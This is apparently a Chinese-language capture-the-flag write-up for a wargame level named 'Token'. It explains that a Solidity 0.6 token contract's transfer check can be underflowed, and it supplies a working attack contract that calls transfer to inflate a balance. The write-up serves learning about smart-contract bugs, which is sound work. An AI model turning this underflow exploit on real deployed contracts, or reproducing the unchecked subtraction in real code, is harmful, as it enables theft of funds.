

# 5. Token
### 原题
```
这一关的目标是攻破下面这个基础 token 合约
你最开始有20个 token, 
如果你通过某种方法可以增加你手中的 token 数量,
你就可以通过这一关,当然越多越好。
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```
### 分析
这个合约是个简化的代币合约。看transfer方法，里面的计算逻辑是没有问题的。不可能做到凭空通过正常转账方式来破解。如果是遇到加减法的时候，我们就要特别注意溢出的问题了，特别是在低版本中，EVM是没有溢出检测的。当前的编译器版本是基于0.6。这个版本是没有数据溢出检测的。这是个可以操作的漏洞。
我们知道，如果是溢出，实际计算出来的数据可能就非常大(基础的二进制计算)。
但是有同学会说，你看有个判断条件在，怎么突破？
“require(balances[msg.sender] - _value >= 0)”，很简单，我们就在判断条件上开始做溢出的攻击。哪里有计算，我就攻击哪里！霸气！！
我们来尝试让合约的计算产生溢出。废话不多说，直接写攻击代码。记得攻击的时候给自己的另一个钱包地址转账，不要犯傻自转账。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.30;

interface IToken {
    function transfer(address _to, uint256 _value) external  returns (bool);
    function balanceOf(address _owner) external  view returns (uint256 balance);
}

contract TokenAttack {
    IToken token;
    

    constructor(address _token) {
      token = IToken(_token);
    }

    function attack(address account, uint256 _value) external{
        token.transfer(account, _value);
    }

    function balanceOf(address _owner) external  view returns (uint256 balance) {
        balance = token.balanceOf(_owner);
    }
}
```

